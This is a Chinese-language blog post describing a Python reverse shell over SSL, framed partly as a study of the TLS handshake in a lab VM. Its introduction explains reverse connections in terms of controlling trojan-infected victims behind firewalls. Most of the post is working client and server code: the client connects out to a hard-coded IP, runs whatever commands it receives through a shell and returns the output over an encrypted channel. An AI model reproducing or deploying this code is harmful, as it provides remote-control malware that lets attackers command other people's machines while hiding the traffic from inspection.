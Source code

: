 ```yaml
---
layout: post
title:  "Python实现基于SSL传输的反向shell"
date:   2018-12-15 20:15:33 +0700
categories: [安全编程]
---
```


## 0x00 前言

**什么是反弹shell，为什么会用到反弹shell？**

通常用于被控端因防火墙受限、权限不足、端口被占用等情形

假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面，web服务，ssh，telnet等等，都是正向连接。那么什么情况下正向连接不太好用了呢？

1. 某客户机中了你的网马，但是它在局域网内，你直接连接不了。
2. 它的ip会动态改变，你不能持续控制。
3. 由于防火墙等限制，对方机器只能发送请求，不能接收请求。
4. 对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知，所以建立一个服务端，让恶意程序主动连接，才是上策。

那么反弹就很好理解了， 攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

最近在复习SSL协议的握手过程，想利用python实现反向shell的传输加密，并且使用wireshark抓包来验证这个过程。

## 0x01 生成证书

本人是使用`openssl` 生成服务端证书的，采取的是单向认证，客户端一般都是匿名。生成证书命令如下：

```
openssl genrsa -des3 -out server.key 2048
openssl rsa -in server.orig.key -out server.key
openssl req -new -key server.key -out server.csr
openssl x509 -req -days 365 -in server.csr -signkey server.key -out server.crt
```

## 0x02 SSL握手过程

![SSL Protocol]({{site.url}}/images/SSLProtocol.png)

## 0x03 客户端

`ssl` 模块能为底层socket连接添加SSL的支持。 `ssl.wrap_socket()` 函数接受一个已存在的socket作为参数并使用SSL层来包装它。

```python
def create_socket():
    try:
        global host
        global port
        global ssls
        host = '192.168.244.165'
        port = 8000
        s = socket.socket()
        ssls = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1) 
    except socket.error as msg:
        print('Socket create failed: ' + str(msg))
```

连接一个远程的socket连接

```python
def socket_connect():
    try:
        global host
        global port
        global s
        ssls.connect((host,port))
    except socket.error as msg:
        print("Socket connect failed" + str(msg))
```

然后接受服务端传输过来的命令，执行后返回给服务端

```python
def receive_command():
    global s
    while True:
        data = ssls.recv(1024)
        #change dir
        if data[:2].decode('utf-8') == 'cd':
            os.chdir(data[3:].decode("utf-8"))
        if len(data) > 0:
            #excute command
            cmd = subprocess.Popen(data[:].decode('utf-8'), shell=True, stdin=subprocess.PIPE, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
            output_bytes = cmd.stdout.read() + cmd.stderr.read()
            output_str = str(output_bytes)
            ssls.send(str.encode(output_str))
    s.close()
```

## 0x04 服务端

创建一个socket，并且绑定服务端的证书，就是使用刚刚生成的证书

```python
def create_socket():
    try:
        global host
        global port
        global s
        host = ''
        port = 8000
        s = socket.socket()
        s = ssl.wrap_socket(s, certfile='twoday.crt', keyfile='twoday.key', ssl_version=ssl.PROTOCOL_TLSv1)
    except s.error as msg:
        print('create socket failed: ' + str(msg))
```

socket进行绑定端口，并且开启监听模式，等待客户端来连接

```python
def socket_bind():
    try:
        global s
        global host
        global port
        print("Binding socket to port: " + str(port))
        s.bind((host,port))
        s.listen(5)
    except socket.error as msg:
        print('connect socket failed: ' + str(msg) + '\n')
        #Rebind
        socket_bind() 
```

`send_command()` 函数将服务端想要执行的命令发送给客户端，并且将返回的结果进行显示

```python
def send_command(conn):
    while True:
        cmd = input('\n>>> ')
        if cmd == 'exit':
            conn.close()
            s.close()
            sys.exit()
        #if cmd has data
        if len(str.encode(cmd)) > 0:
            conn.send(str.encode(cmd))
            client_respone = str(conn.recv(1024))
            print(client_respone , end='')
```

`socket_accpet()`函数与客户端进行连接，并且调用`send_command()`函数进行交互。

```python
def socket_accpet():
    conn, address = s.accept()
    print("Connection has been established | " + "IP " + address[0] + " | Port " + str(address[1]))
    send_command(conn)
    conn.close()
```

## 0x05 分析结果

运行`server.py`，并且在虚拟机Ubuntu下运行`client.py` ，可以看到客户端已经连接上了

![1544755521(1)]({{site.url}}/images/1544755521(1).jpg)

通过wireshark抓包，可以看到SSL的握手过程

![1544755421(1)]({{site.url}}/images/1544755421(1).jpg)

执行`ls`命令：

![1544755740(1)]({{site.url}}/images/1544755740(1).jpg)

可以看到命令已经执行成功。



完整代码：https://github.com/threeworld/reverse-shell

## 0x06 参考

* https://www.zhihu.com/question/24503813
* https://xz.aliyun.com/t/2549
* http://www.ruanyifeng.com/blog/2014/02/ssl_tls.html